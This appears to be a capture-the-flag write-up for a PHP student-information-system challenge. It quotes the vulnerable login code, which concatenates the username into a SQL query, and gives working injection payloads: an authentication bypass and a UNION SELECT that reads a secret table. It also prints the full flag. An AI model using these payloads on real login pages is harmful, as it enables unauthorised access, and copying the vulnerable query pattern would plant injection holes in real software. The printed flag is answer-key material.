 # VinUni's Student Information System

VinUni SIS's source code has been recently disclosed in public. It has become a target of a notorious hacker crew, VinUni Hacking Club. You are an intern of this crew, try to exploit the website to become the official member!

Note: The flag is divided into two parts.

Challenge URL: http://ctflag.vhc.asia:12215/

## Techniques

PHP, SQL Injection

## Solution

### Finding the first part

As we refer to the [PHP source code](http://ctflag.vhc.asia:12215/thesis.php?source), we find the following snippet.

```php
<?php if ($_SESSION["username"]=="administrator"){ ?>
    <h1 class="corb-flag"><?php echo $flag; ?></h1>'
<?php } ?> 
```

And how can we obtain the value for `$_SESSION["username"]`?

```php
$query = "SELECT username FROM users WHERE username = '" . $_POST['username'] . "' and password = ?";

// ...

// Bind password param
$query->bind_param("s", $_POST['password']);
$query->execute();
$query->bind_result($user);
$query->fetch();

// Check if a user does exist
if ($user != NULL) {
    session_start();
    $_SESSION['is_logged_in'] = true;
    $_SESSION['username'] = $user;
} else {
    $error = true;
    $error_msg = "<strong>Wrong!</strong> Username/Password is invalid.";
}
```

We can apply a SQL Injection attack to the login query, by setting `username=administrator` and omit the rest by commenting out.

We can supply the below values to the login form (leave the `password` field blank)

![login form 1](login-1.png)

During the event, initially, I used `administrator' or '=` instead, but it yields the same behavior anyway.

The first part of the flag is `VHC2022{m3_c4N_SqLi_`.

![flag 1](flag-1.png)

### Finding the second part

A hint is given in the previous part that we need to find a way to login 'secretly'.

When we apply the same previous technique for the username `secretly, secret, the_secret_user`, etc., it doesn't work. It implies that such usernames do not exist in the `users` table.

Again, look at the PHP source code but the SQL query test comments.

```php
// Test:
// $query = "SELECT _faculty1 FROM the_faculty_table"
// $query = "SELECT _faculty2 FROM the_faculty_table"
// $query = "SELECT the FROM the_faculty_table"
// $query = "SELECT the_menu_user FROM the_canteen_table";
// $query = "SELECT the_ceo_user FROM the_vingroup_table";
//
// $query = "SELECT the_secret_user FROM the_secret_table";
// $query = "SELECT the_guest_user_1 FROM the_guest_table";
// $query = "SELECT the_CFO_user FROM the_cbm_table";
// $query = "SELECT V202145001 FROM the_students_table"
// $query = "SELECT V202000001 FROM the_students_table"
// $query = "SELECT V202000002 FROM the_students_table"
// $query = "SELECT V202000003 FROM the_students_table"
// $query = "SELECT V202000004 FROM the_students_table"
// $query = "SELECT V202000005 FROM the_students_table"
// $query = "SELECT V202000006 FROM the_students_table"
```

There is a `the_secret_user` in the `the_secret_table` table. How can we bring it to the SQL query result?

We can use a UNION query!

```sql
' UNION SELECT the_secret_user FROM the_secret_table #
```

Type this in the `username` field, and voilà!

![flag 2](flag-2.png)

The second part of the flag is `m3_4_r34L_h4ck3r!}`.

## The Flag

```
VHC2022{m3_c4N_SqLi_m3_4_r34L_h4ck3r!}
```

Anyway, don't try to hack into [VinUni Student Information System (SIS)](https://sis.vinuni.edu.vn) for real unless you want a Level 4 Code of Conduct violation.